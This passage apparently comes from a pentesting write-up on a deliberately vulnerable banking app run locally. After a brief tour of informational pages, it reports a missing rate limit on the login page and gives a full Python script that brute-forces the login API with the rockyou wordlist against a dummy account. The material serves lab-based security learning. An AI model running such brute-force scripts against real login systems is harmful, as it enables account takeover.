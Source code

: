 Lastly, we have the **Contact Us** and **About Us** pages, which are standard informational pages:

![](/Screenshots/unsafebank//tour/contact.png)  
![](/Screenshots/unsafebank//tour/about.png)

# VI. Pentesting

Now that the application is running and we’ve explored its features, it’s time to get to the fun part, **pentesting**. The first target I decided to assess was the **login page**...
### 1. Login Password Bruteforce:

During my assessment of this login page, initial manual testing involved submitting multiple incorrect credentials in rapid succession. The application consistently returned similar error messages and HTTP status codes, with no evidence of rate limiting, account lockout, or CAPTCHA enforcement. This suggested a potential vulnerability to brute-force attacks.

To confirm this, I created a dummy user account via the registration endpoint using the userID BNK86596 and a weak rockyou password: `softball`.Then I developed a Python script to automate login attempts using the well-known `rockyou.txt` password list. The script crafted POST requests with the appropriate JSON body structure expected by the API and iterated through the password list.

```python
import requests
import json

url = "http://localhost:80/api/login"
username = "BNK86596"
rockyou_path = "/usr/share/wordlists/rockyou.txt"

with open(rockyou_path, "r", encoding="latin-1") as f:
    wordlist = [line.strip() for line in f]

headers = {
    "Content-Type": "application/json"
}

for pwd in wordlist:
    payload = {
        "requestBody": {
            "timestamp": "325553",
            "device": {
                "deviceid": "UHDGGF735SVHFVSX",
                "os": "ios",
                "host": "lucideustech.com"
            },
            "data": {
                "userid": username,
                "passwd": pwd
            }
        }
    }

    resp = requests.post(url, headers=headers, data=json.dumps(payload))

    print(f"[{pwd}] -> {resp.status_code} | {resp.text[:100]}")

    if "token" in resp.text or "Login Successful" in resp.text:
        print(f"\n[+] SUCCESS: Password FOUND -> {pwd}")
        break
```
